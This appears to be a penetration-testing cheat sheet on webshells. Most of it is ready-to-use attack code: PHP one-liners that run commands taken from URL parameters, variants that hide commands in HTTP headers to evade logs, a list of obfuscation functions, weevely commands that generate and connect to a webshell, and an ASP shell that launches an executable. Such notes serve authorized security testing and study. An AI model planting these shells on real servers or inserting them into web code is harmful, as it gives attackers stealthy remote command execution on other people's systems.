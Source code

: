 # Webshell

A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 \(and 443\). It is also a bit more stealthy than a reverse shell on other ports since the traffic is hidden in the http traffic.

You have access to different kinds of webshells on Kali here:

```text
/usr/share/webshells
```

## PHP

This code can be injected into pages that use php.

```php
# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

You can then call then execute the commands like this:

```text
http://192.168.1.103/index.php?cmd=pwd
```

### Make it stealthy

We can make the commands from above a bit more stealthy. Instead of passing the cmds through the url, which will be obvious in logs, we cna pass them through other header-paramters. The use tampterdata or burpsuite to insert the commands. Or just netcat or curl.

```php
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
<?php system($_SERVER['HTTP_USER_AGENT'])?>

# I have had to use this one
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

### Obfuscation

The following functions can be used to obfuscate the code.

```text
eval()
assert()
base64()
gzdeflate()
str_rot13()
```

### Weevely - Incredible tool!

Using weevely we can create php webshells easily.

```text
weevely generate password /root/webshell.php
```

Not we execute it and get a shell in return:

```text
weevely "http://192.168.1.101/webshell.php" password
```

## ASP

```text
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

## References

[http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/](http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/) [http://www.binarytides.com/web-shells-tutorial/](http://www.binarytides.com/web-shells-tutorial/)

